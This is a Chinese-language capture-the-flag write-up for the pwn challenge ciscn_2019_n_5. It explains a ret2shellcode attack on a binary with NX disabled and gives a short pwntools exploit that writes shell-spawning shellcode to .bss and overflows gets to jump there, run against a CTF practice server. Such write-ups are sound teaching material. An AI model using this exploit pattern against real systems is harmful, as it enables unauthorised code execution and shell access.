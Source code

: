 # 知识点

ret2shellcode



# 题目分析

1. 查看保护情况，64位程序，没开启保护，存在RWX（可读可写可执行）段。

   ```bash
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX disabled
   PIE:      No PIE (0x400000)
   RWX:      Has RWX segments
   ```

2. 拖入IDA分析，发现read函数和gets函数存在栈溢出漏洞。

   ![ida1](./isset/ida1.png)

3. 由于程序没开启NX保护，因此，我们可以将shellcode写入name变量，然后利用gets栈溢出执行shellcode即可。



# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_n_5')
io = remote('node4.buuoj.cn', '29821')

bss = 0x601080

payload = asm(shellcraft.sh())
io.send(payload)

payload = 'A' * 0x20 + 'deadbeef' + p64(bss)
io.sendline(payload)

io.interactive()
```

